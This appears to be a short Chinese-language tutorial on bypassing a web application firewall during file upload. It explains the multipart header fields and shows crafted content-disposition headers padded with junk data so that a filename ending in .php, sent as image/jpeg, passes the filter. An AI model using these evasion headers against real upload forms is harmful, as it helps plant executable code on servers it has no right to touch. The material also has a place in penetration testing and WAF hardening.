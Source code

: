 ### 基本格式：（正常的·）

> 
content-disposition:xxxx; name="upload_file"; filename="xxxx";
content-type: image/jpeg


[【MIME类型对照】Content-Type的值](https://blog.csdn.net/qq_53079406/article/details/123444997?spm=1001.2014.3001.5501)

### 抓包后对于数据的处理：

content-disposition（MIME的扩展，为属性名disposition-type是以什么方式下载）:可更改

name（表单参数值）:别动他，“他有意大利炮”

filename（文件名）：重点针对对象

content-type（Mime值）：结合实际情况盘它

## 数据溢出绕过：

#### 原理：

数据范围都是有限，超过WAF的检测范围就不会往下检测

（就好像前端浏览器输入一样，输入到限制长度就无法再输入，但前端限制可改）

#### 利用过程：

（正常）:

> 
content-disposition:form-data; name="upload_file"; filename="xxxx";
content-type: image/jpeg


#### 方法一：在content-disposition:字段里写入无用数据（直达WAF检测不出来）

可以在form-data前面添加无效数据

> 
**content-disposition:** **form-data  **qwfasajhchsavhjfxjassbchmvjvxevcssasvad hjhegvwchjsvnmcvejgabvxeyfwavcyefwkcbmn hjhegvwchjsvnmcvejgabvxeyfwavcyefwkcbmnsvcyewgchvgegjcbwveyiwcvjsqwfasajhchsav  hjhegvwchjsvnmcvejgabvxeyfwavcyefwkcbmnsvcyewgchvgegjcbwveyiwcvjsqwfasajhchsav hjhegvwchjsvnmcvejgabvxeyfwavcyefwkcbmnsvcyewgchvgegjcbwveyiwcvjs(直达WAF检测不出来)  **form-data; name="upload_file"; filename="xxxx.php";**
**content-type: image/jpeg**


也可以在form-data后面添加无效数据

> 
**content-disposition:** **form-data  **qwfasajhchsavhjfxjassbchmvjvxevcssasvad hjhegvwchjsvnmcvejgabvxeyfwavcyefwkcbmn hjhegvwchjsvnmcvejgabvxeyfwavcyefwkcbmnsvcyewgchvgegjcbwveyiwcvjsqwfasajhchsav hjhegvwchjsvnmcvejgabvxeyfwavcyefwkcbmnsvcyewgchvgegjcbwveyiwcvjsqwfasajhchsav  hjhegvwchjsvnmcvejgabvxeyfwavcyefwkcbmnsvcyewgchvgegjcbwveyiwcvjs(直达WAF检测不出来) **; name="upload_file"; filename="xxxx.php";**
**content-type: image/jpeg**
